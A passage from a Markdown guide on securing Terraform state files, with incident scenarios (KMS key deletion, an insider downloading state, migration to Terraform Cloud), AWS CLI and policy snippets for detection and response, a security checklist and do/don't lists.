aws kms describe-key --key-id arn:aws:kms:us-east-1:123456789012:key/...

# 3. Test state access
terraform state list

# 4. Implement key deletion protection
# Add key policy to prevent deletion
{
  "Sid": "Prevent Key Deletion",
  "Effect": "Deny",
  "Principal": "*",
  "Action": [
    "kms:ScheduleKeyDeletion",
    "kms:DeleteAlias"
  ],
  "Resource": "*"
}
```

**Prevention**:
- Implement KMS key policies that restrict deletion
- Set up CloudWatch alarms for `ScheduleKeyDeletion` API calls
- Use AWS Config rules to detect key deletion schedules
- Require approval workflow for key management operations

---

### Scenario 4: The "Insider Reconnaissance"
**Problem**: An insider downloaded the state file before leaving and used it to map the company's infrastructure.

**Impact**: The attacker:
- Extracted all private IP addresses
- Mapped VPC topology and security groups
- Identified vulnerable services
- Planned targeted attacks

**Discovery**: CloudTrail logs showed unusual state file downloads at 2 AM.

**Response**:
```bash
# 1. Review CloudTrail for suspicious activity
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=ResourceName,AttributeValue=terraform.tfstate \
  --start-time 2025-12-01 \
  --max-results 100

# 2. Identify compromised credentials
# Review KMS decrypt operations
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=Decrypt

# 3. Rotate all infrastructure
# Change security group rules
# Rotate database passwords
# Update network configurations

# 4. Implement stricter access controls
# Update IAM policies to require MFA
{
  "Condition": {
    "BoolIfExists": {
      "aws:MultiFactorAuthPresent": "true"
    }
  }
}
```

**Prevention**:
- Require MFA for state bucket access
- Implement time-based access restrictions
- Set up anomaly detection for unusual access patterns
- Use AWS GuardDuty for threat detection
- Implement just-in-time (JIT) access

---

### Scenario 5: The "Terraform Cloud Migration"
**Problem**: Company needed to migrate from S3 backend to Terraform Cloud for better security and collaboration.

**Challenge**: 50+ workspaces with different state files, all containing sensitive data.

**Solution**:
```bash
# 1. Create Terraform Cloud organization and workspaces
# (Done via UI or API)

# 2. For each workspace, update backend configuration
# old-backend.tf
terraform {
  backend "s3" {
    bucket = "old-state-bucket"
    key     = "prod/terraform.tfstate"
    region = "us-east-1"
  }
}

# new-backend.tf
terraform {
  cloud {
    organization = "company-name"
    workspaces {
      name = "prod-infrastructure"
    }
  }
}

# 3. Migrate state
terraform init -migrate-state

# 4. Verify migration
terraform state list

# 5. Clean up old S3 state (after verification period)
# Archive old state files for compliance
aws s3 sync s3://old-state-bucket/ s3://archive-bucket/terraform-state-archive/
```

**Benefits Achieved**:
- Built-in encryption and access control
- Audit logs for all operations
- Remote execution with policy enforcement
- Better collaboration with workspace management
- Reduced attack surface (no S3 bucket to secure)

---

## 🔒 Security Checklist

### State Storage
- [ ] Remote backend configured (S3, Terraform Cloud, etc.)
- [ ] Encryption at rest enabled (SSE-KMS preferred)
- [ ] Encryption in transit enforced (TLS/HTTPS only)
- [ ] S3 Versioning enabled
- [ ] MFA Delete enabled
- [ ] Bucket is private (no public access)
- [ ] Server Access Logging enabled

### Access Control
- [ ] IAM policies follow least privilege principle
- [ ] MFA required for state bucket access
- [ ] Separate IAM roles for CI/CD and humans
- [ ] Regular IAM access reviews
- [ ] CloudTrail logging enabled
- [ ] KMS key policies restrict access

### Secret Management
- [ ] No secrets passed as Terraform variables
- [ ] Secrets Manager/Vault used for sensitive data
- [ ] `sensitive = true` used for output values
- [ ] `.gitignore` includes `*.tfstate` and `*.tfvars`
- [ ] Pre-commit hooks block sensitive files

### Monitoring & Auditing
- [ ] CloudWatch alarms for unusual state access
- [ ] CloudTrail logs monitored
- [ ] S3 access logs reviewed regularly
- [ ] KMS key usage audited
- [ ] GuardDuty enabled for threat detection

### Disaster Recovery
- [ ] State file backups tested
- [ ] Recovery procedures documented
- [ ] Version rollback tested
- [ ] Incident response plan in place

---

## 🎓 Best Practices

### ✅ DO:
- Use remote backends with encryption (S3+KMS, Terraform Cloud)
- Enable S3 Versioning and MFA Delete
- Implement least privilege IAM policies
- Use Secrets Manager instead of passing secrets as variables
- Enable CloudTrail and monitor for anomalies
- Require MFA for state bucket access
- Add `*.tfstate` to `.gitignore`
- Regularly audit access logs
- Test disaster recovery procedures
- Use policy-as-code (Sentinel/OPA) for enforcement

### ❌ DON'T:
- Never commit state files to Git
- Don't use local state for production
- Don't pass secrets as Terraform variables
- Don't grant public access to state buckets
- Don't use SSE-S3 for highly sensitive environments
- Don't skip CloudTrail logging
- Don't ignore security alerts
- Don't share IAM credentials across team members
- Don't disable versioning on state buckets
- Don't forget to rotate credentials after exposure

---

## 🔗 Related Topics
- [State Locking](../04-State-Locking/State%20Locking.md) - Preventing concurrent modifications
- [State Operations](../05-State-Operations/State%20Operations.md) - Safe state manipulation
- [Remote State Backends](../03-Remote-State-Backends/Remote%20State%20Backends.md) - Backend configuration
